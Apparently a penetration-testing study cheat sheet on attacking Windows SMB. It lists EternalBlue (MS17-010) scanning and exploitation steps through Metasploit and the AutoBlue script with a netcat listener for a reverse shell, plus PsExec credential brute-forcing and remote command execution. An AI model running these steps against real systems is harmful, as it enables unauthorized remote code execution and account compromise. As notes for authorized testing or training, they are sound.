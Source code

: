 # Eternal Blue

## Scan to check if vulnerable
nmap -sV -p 445 --script=sbm-vuln-ms17-010 TARGET

## Metasploit
search eternalblue

(Scanner) auxiliary/scanner/smb/smb_ms17_010

(Exploit) exploit/windows/smb/ms17_010_eternalblue

## AutoBlue-MS17-010
Via github

Have to generate shellcode to exploit

Execute prior 

Generate a stageless payload 

Start netcat listener 
  Nc -nvlp 1234 (port you set up prior)
  
In the eternalblue_exploit directory in a different prompt
  Change mod
  Python eternalblue_exploit7.py TARGET shellcode/sc_x64.bin
  
Will have a connection in the netcat terminal 

# PsExec

(Scan to find supported protocoles and dialets of server) 

nmap -p445 --script smb-protocols TARGET

## start metasploit for login

auxiliary/scanner/smb/smb_login -> set User and Pass File

## Authenticate 

psexec.py user@TARGET cmd.exe (COMMAND)

## Authenticate with metasploit

search psexec
choose module: exploit/windows/smb/psexec -> set SMBuser and SMBpass
